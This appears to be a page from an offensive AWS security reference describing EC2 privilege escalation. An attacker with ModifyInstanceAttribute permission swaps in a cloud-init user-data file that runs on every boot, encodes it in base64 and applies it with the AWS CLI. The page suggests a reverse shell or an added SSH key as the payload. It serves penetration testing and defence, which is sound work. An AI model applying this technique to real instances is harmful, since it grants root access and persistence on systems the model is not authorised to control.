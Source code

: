 ```yaml
---
author_name: Nick Frichette
title: "Local Privilege Escalation: User Data"
description: Escalate privileges on an EC2 instance by modifying the user-data scripts with modify-instance-attribute.
hide:
  - toc
---
```


# Local Privilege Escalation: User Data

<div class="grid cards" markdown>
-   :material-shield-star:{ .lg .middle } __Required IAM Permissions__

    ---

    - [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)

-   :material-shield-star:{ .lg .middle } __Recommended but not Required IAM Permissions__

    ---

    - These make things easier and require less enumeration.
    - The instance __must__ be stopped to alter user data.
    - [ec2:StartInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:DescribeInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:StopInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html)
</div>

**Recommended but not required**: [start-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html), [describe-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-instances.html), [stop-instances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html) (makes things go faster, requires less enumeration. The instance must be stopped to alter the user data)  

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started, however this can be changed using [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) to run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the modify-instance-attribute API call to change the user data of the target instance. Note: the instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.